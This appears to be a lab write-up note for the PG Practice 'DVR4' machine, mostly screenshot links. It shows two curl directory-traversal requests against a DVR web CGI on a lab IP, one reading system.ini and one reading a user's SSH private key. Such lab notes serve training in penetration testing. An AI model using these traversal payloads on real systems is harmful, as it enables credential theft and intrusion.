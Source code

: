![](../attachment/9be92ab936f49314ca66fd642946bae8.png)
Checking Users:
![](../attachment/c7b6928151ede68afba021af95ac7e40.png)

We discover a directory traversal exploit:
![](../attachment/91d3a2265ca4e4557a546c227e0540e4.png)
![](../attachment/bc1baf9c8d7bfb84794197ed64eb889d.png)
Trying this:
```
curl "http://192.168.216.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```
![](../attachment/7f9f06d050f369d7f4ff315c9234e5fa.png)Now trying to get a ssh key:
```
curl "http://192.168.216.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FViewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
```
![](../attachment/904f1bf295f7882b11c2aafdd360c014.png)
Now login at [[PG Practice/DVR4/22]]